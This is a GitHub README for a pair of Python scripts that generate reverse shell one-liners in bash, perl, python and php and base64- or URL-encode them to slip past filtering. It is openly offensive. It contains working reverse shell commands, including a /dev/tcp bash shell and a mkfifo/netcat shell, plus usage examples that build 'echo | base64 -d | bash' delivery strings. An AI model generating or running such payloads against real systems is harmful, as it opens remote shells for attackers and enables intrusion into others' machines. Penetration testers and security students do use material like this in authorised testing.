 # reverse_shells_tools
Scripts for generating reverse shells based mostly on PayloadAllTheThings.

Using one script you can generate one-line reverse shell payloads.

Using the other script you can base64 encode the reverse shell payload when appropiate. This encoding takes into account bad chars for supporting channels as http (url friendly base64 encoded payloads).

I normally use the one-liner to pipe the result into the encoder when appropiate.

The tools are **2 scripts**:
- **rs_oneliner.py**: Mostly one-liner reverse shell generator, based on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- **rs_b64encode.py**: Use it in convination with **rs_oneliner.py** when appropiate payloads are used (payloads normally to be executed in a bash context). Using the **--echo** It can help you constructing an *echo <base64_encoded_payload> | base64 -d | bash* construct. And with **--echo** and **--url** it will use **url encode** the payload too.

## How to use

Minimal execution needs:

```bash
git clone https://github.com/arale61/reverse_shells_tools.git
cd reverse_shells_tools
python ./rs_oneliner.py -h
python ./rs_b64encode.py -h
```

How **I prefer to use it**:
- I have my own **local bin path** where **these scripts are copied** and **set as executables**:
```
~/.local/bin/rs_oneliner.py
~/.local/bin/rs_b64encode.py
```
- This **local bin path is added in my PATH** environment variable in my .zshrc or .bashrc:
```
export PATH=$PATH:$HOME/.local/bin
```
- Then use them as any other executable available for you.

## Examples:


1. Simple bash tcp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash
```


2. Simple bash udp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash --udp
```


3. Simple perl tcp reverse shell for windows:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl --win
```


4. Pipe into rs_b64encode.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py
```


5. Pipe into rs_b64encode.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo
```


6. Pipe into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo --url
```


7. Simple safe base64 encode:
```bash
./rs_b64encode.py -p 'bash -i >& /dev/tcp/127.0.0.1/6161 0>&10'
```


8. Simple safe base64 encode and use echo decode construct:
```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' | ./rs_b64encode.py --echo
#or
./rs_b64encode.py -p 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' --echo
```


9. Pipe with rs_oneliner.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --python | ./rs_b64encode.py
```


10. Pipe with rs_oneliner.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl | ./rs_b64encode.py --echo
```


11. Pipe into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --phpsystem | ./rs_b64encode.py --echo --url
```
